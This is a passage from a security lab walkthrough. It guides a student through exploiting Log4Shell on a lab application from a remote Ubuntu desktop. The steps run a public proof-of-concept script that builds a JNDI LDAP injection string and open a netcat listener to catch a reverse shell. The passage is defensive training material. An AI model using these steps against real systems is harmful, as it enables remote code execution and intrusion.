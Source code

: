 2.  You should now be logged in the remote desktop that is an Ubuntu VM

3.  Click the 9-dots square to open Firefox

![](.\/media/image20.png)

4.  Use Firefox address bar to access the **Log4ShellAPP_URL**

5.  You should have accessed the application. Keep this Firefox window
    open. The application can be slightly different from the image below

![A screenshot of a computer Description automatically
generated](.\/media/image21.png)

6.  Click "**activities**" menu at upper left \> 9-dots square \>
    Terminal

![A screenshot of a computer Description automatically
generated](.\/media/image22.png)

7.  Inside terminal window type:

    a.  cd log4j-shell-poc

    b.  python3 poc.py \--userip \<PUBLIC_IP\> \--webport 8000 \--lport
        9001

    c.  PUBLIC_IP is the public IP you used to connect to Remote Desktop

        i.  Step 5 of this lab

        ii. Or you can see it in the "title bar" from remote desktop
            app, example in the screenshots 52.91.129.42

8.  Press **enter**

9.  You should see a string starting with \${jndi://ldap....... Copy it

![A screenshot of a computer Description automatically
generated](.\/media/image23.png)

10. Open a new tab in the terminal window (number 4 from the picture
    above)

11. Type nc -lvnp 9001
